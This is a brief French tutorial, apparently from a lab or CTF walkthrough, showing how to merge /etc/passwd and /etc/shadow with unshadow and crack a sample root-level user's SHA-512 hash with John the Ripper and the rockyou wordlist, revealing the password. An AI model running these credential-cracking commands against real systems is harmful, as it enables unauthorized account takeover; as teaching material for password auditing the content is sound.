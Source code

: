 Brute force /etc/shadow avec John The Ripper
===

### 0. Extraire et déchiffrer /etc/shadow
Nous allons voir comment déchiffrer le mot de passe de l'utilisateur stocké dans /etc/shadow via john.

Elle se décompense en deux étapes :
- La première consiste à combiner les fichiers **/etc/passwd** et **/etc/shadow**
- La deuxième est le déchiffrement

### 1. Combinaison

```bash
# /etc/passwd
buddy:x:0:0:buddy:/home/buddy:/bin/bash

# /etc/shadow
buddy:$6$3GvJsNPG$ZrSFprHS13divBhlaKg1rYrYLJ7m1xsYRKxlLh0A1sUc/6SUd7UvekBOtSnSyBwk3vCDqBhrgxQpkdsNN6aYP1:18233:0:99999:7:::
```

Via l'outil **unshadow**, on effectue la combinaison :
```bash
$ unshadow /etc/passwd /etc/shadow > unshadowed
```

```bash
$ cat unshadowed
buddy:$6$3GvJsNPG$ZrSFprHS13divBhlaKg1rYrYLJ7m1xsYRKxlLh0A1sUc/6SUd7UvekBOtSnSyBwk3vCDqBhrgxQpkdsNN6aYP1:0:0:buddy:/home/buddy:/bin/bash
```
### 2. Déchiffrement
Il ne nous reste plus qu'à lancer l'attaque par dictionnaire avec john :
```bash
$ john unshadowed --wordlist=/usr/share/wordlists/rockyou.txt
```

```bash
$ john --show unshadowed
buddy:rainbow:0:0:buddy:/home/buddy:/bin/bash
```

Le mot de passe de l'utilisateur **buddy** est : **rainbow**
